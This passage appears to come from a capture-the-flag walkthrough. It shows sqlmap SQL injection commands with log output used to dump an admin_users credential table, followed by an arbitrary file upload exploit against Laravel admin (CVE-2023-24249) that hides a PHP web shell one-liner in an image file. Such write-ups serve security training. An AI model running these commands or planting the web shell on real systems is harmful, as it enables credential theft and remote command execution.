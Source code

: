 ### SQLI dump columns:
With the previous **sqlmap** command, it reports 15 tables that exist on the machine.
####
```js
[21:25:39] [INFO] retrieved: admin_menu
[21:27:08] [INFO] retrieved: admin_operation_log
[21:29:28] [INFO] retrieved: admin_permissions
[21:31:19] [INFO] retrieved: admin_role_menu
[21:33:00] [INFO] retrieved: admin_role_permissions
[21:35:09] [INFO] retrieved: admin_role_users
[21:36:20] [INFO] retrieved: admin_roles
[21:36:52] [INFO] retrieved: admin_user_permissions
[21:39:31] [INFO] retrieved: admin_users
```
####
Now what we need to do is dump the columns that exist in the **admin_users** table, which is probably where valid users are.
####
```perl
sqlmap -r req -p email --level 3 --batch --columns -T admin_users --dump
```
####
### SQLI dump specified columns:
With the previous **sqlmap** command, it reports 15 tables that exist on the machine.
####
```js
[21:50:24] [INFO] retrieved: username
[21:51:28] [INFO] retrieved: password
```
####
Now what we need to do is dump the contents of the columns that exist in the **admin_users** table, is where probably are the valid credentials to achieve a authentication into tha target machine:
####
```perl
sqlmap -r req -p email --level 3 --batch --columns -T admin_users --dump
```
####
####
####
## First exploitation phase
### Upload file:
At the moment to enter into the website after cracking some passwords, we see a dashboard with information on installed dependencies, so we must search for possible exploits. There is a section to assign an avatar image to the **admin** user, so this could represent a possible AFU [*Arbitrary File Upload*]. 
####
The dependency that comes closest to this is: [*Encode/larabel admin 1.8.18*]. Here there a good exploit that help us to exploit this vulnerability: 
####
- Exploit:
    - [Arbitrary-File-Upload-CVE-2023-24249](https://flyd.uk/post/cve-2023-24249)
####
We generate an image with its corresponding headers and insert some PHP code to obtain a **cmd** into this file, so form that if we change the file extention to **php**, we will are able to execute commands in the target machine doing use the **cmd** parameter into the url. Something similar to this: http://127.0.0.1/images/malicius.jpg.php?cmd=whoami.
####
The PHP code is this `<?php system($_REQUEST['cmd']); ?>`. We will use this code to execute commands in the target machine putting the PHP code into the image file. The *PocC* image file have a `.jpg` extention and have the next header:
####
```rust
```